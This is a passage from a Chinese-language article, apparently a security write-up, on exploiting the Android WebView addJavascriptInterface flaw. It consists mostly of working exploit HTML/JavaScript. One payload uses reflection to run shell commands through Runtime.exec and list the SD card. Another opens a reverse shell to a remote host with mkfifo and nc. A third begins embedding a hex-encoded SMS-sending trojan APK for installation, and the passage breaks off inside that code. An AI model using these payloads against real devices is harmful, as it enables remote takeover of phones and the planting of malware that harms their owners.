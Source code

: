       2) 利用 addJavascriptInterface 方法注册可供 JavaScript 调用的 java 对象 “injectedObj”，利用反射机制调用 Android API getRuntime 执行 shell 命令：  
      EXP 的 JavaScript 代码：  

```
<html>
   <body>
      <script>
         function execute(cmdArgs)
         {
             return injectedObj.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);
         }

         var res = execute(\["/system/bin/sh", "-c", "ls -al /mnt/sdcard/"\]);
         document.write(getContents(res.getInputStream()));
       </script>
   </body>
</html>
```

      利用后的执行结果：   
![](https://mmbiz.qpic.cn/mmbiz_jpg/p5qELRDe5icnRBnle9hbcfwiaUrkxtHoQbDjZfVn0fCOXks02TnNNTXNKXo8niaY13VsuMhYypFLJ6m9CxviaABV1A/640?wx_fmt=jpeg)  
      3) 利用 addJavascriptInterface 方法注册可供 JavaScript 调用的 java 对象 “injectedObj”，利用反射机制调用 Android API getRuntime 执行 shell 命令，达到反弹一个手机端的 shell 到远程控制端的目的：  
      EXP 的 JavaScript 代码：  

```
<html>
   <body>
      <script>
         function execute(cmdArgs)
         {
             return injectedObj.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);
         }
         execute(\["/system/bin/sh","-c","rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/system/bin/sh -i 2>&1|nc x.x.x.x 9099 >/tmp/f"\]);
       </script>
   </body>
</html>
```

      执行后的结果：  
 ![](https://mmbiz.qpic.cn/mmbiz_jpg/p5qELRDe5icnRBnle9hbcfwiaUrkxtHoQbCwQFtrwUpmsibaFo9tPchibsUPGIlE7MUOHG3BClF78NuCFVcicvtia7xA/640?wx_fmt=jpeg)  
      4) 利用 addJavascriptInterface 方法注册可供 JavaScript 调用的 java 对象 “injectedObj”，利用反射机制调用 Android API getRuntime 执行 shell 命令进行挂马：a 安装木马应用 APK, b 安装执行 ELF 可执行程序；  
      简单的安装发送短信木马 APK，EXP 的 JavaScript 代码：  

```
<html>
   <body>
      <script>
         function execute(cmdArgs)
         {
             return injectedObj.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);
         }
         var apk = "\\\\x50\\\\x4B\\\\x03\\\\x04\\\\x14\\\\x00\\\\x08\\\\x00\\\\x08\\\\x00\\\\x62 \\\\xB9\\\\x15\\\\x30\\\\x3D\\\\x07\\\\x01\\\\x00\\\\x00\\\\x7C\\\\x01\\\\x00\\\\x00\\\\x10\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\xD6\\\\x0D\\\\x00\\\\x00\\\\x4D\\\\x45\\\\x54\\\\x41\\\\x2D\\\\x49\\\\x4E\\\\x46\\\\x2F\\\\x43\\\\x45\\\\x52\\\\x54\\\\x2E\\\\x53------------------------------------------------------------ \\\\x4D\\\\x45\\\\x54\\\\x41\\\\x2D\\\\x49\\\\x4E\\\\x46\\\\x2F\\\\x43\\\\x45\\\\x52\\\\x54\\\\x2E\\\\x52\\\\x53\\\\x41\\\\x50\\\\x4B\\\\x05\\\\x06\\\\x00\\\\x00\\\\x00\\\\x00\\\\x07\\\\x00\\\\x07\\\\x00\\\\xBA\\\\x01\\\\x00\\\\x00\\\\xB6\\\\x11\\\\x00\\\\x00\\\\x00\\\\x00"
```